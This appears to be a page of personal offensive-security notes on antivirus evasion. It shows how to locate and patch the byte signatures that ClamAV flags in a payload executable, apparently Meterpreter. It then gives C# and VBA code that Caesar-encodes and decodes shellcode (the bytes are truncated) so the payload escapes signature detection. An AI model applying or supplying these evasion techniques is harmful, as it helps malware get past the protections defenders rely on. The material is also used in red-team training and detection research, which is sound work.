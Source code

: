 layout: page
title: "AV-EVASION"
permalink: /AV-EVASION

# AV evasion
Falls into 2 main methods or categories

## Signature based detection
AV software scans files usually when they are downloaded or right before execution. This method relies on matching known malicious signatures to a file. 

### Locating and fixing signatures

```
Import-Module .\Find-AVSignature.ps1

Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest1 -Verbose -Force

# Now use clamscan to check which byte sequences are flagged
.\clamscan.exe C:\Tools\avtest1

# Change byte offset to evade av
# Sometimes modifying exact byte won't produce results and byte before or after needs to be changed.
$bytes  = [System.IO.File]::ReadAllBytes("C:\Tools\met.exe")
$bytes[18867] = 0
[System.IO.File]::WriteAllBytes("C:\Tools\met_mod.exe", $bytes)
```

### Custom shellcode encryption

#### Caesar encryption

```
namespace Helper
{
    class Program
    {
        static void Main(string[] args)
        {
            byte[] buf = new byte[752] {
                0xfc,0x48,0x83,0xe4,0xf0...
                }
                
            byte[] encoded = new byte[buf.Length];
            for(int i = 0; i < buf.Length; i++)
            {
                encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
            }
            
            StringBuilder hex = new StringBuilder(encoded.Length * 2);
			foreach(byte b in encoded)
			{
			    hex.AppendFormat("0x{0:x2}, ", b);
			}

			Console.WriteLine("The payload is: " + hex.ToString());
		}
	}
}	
```
#### Caesar decryption
```
byte[] buf = new byte[752] {0xfe, 0x4a, 0x85, 0xe6, 0xf2...

for(int i = 0; i < buf.Length; i++)
{
    buf[i] = (byte)(((uint)buf[i] - 2) & 0xFF);
}
```

#### Caesar encryption for VBA
```
using System;
using System.Runtime.InteropServices;
using System.Text;

namespace Helper
{
    class Program
    {
        static void Main(string[] args)
        {
            byte[] buf = new byte[752] {
                0xfc,0x48,0x83,0xe4,0xf0...
                }


            byte[] encoded = new byte[buf.Length];
            for (int i = 0; i < buf.Length; i++)
            {
                encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
            }
            uint counter = 0;
            StringBuilder hex = new StringBuilder(encoded.Length * 2);
            foreach (byte b in encoded)
            {
                hex.AppendFormat("{0:D}, ", b);
                counter++;
                if(counter % 50 == 0)
                {
                    hex.AppendFormat("_{0}", Environment.NewLine);
                }
            }

            Console.WriteLine("The payload is: " + hex.ToString());
        }
    }
}
```

#### Caesar decryption for VBA
```
For i = 0 To UBound(buf)
    buf(i) = buf(i) - 2
Next i
```
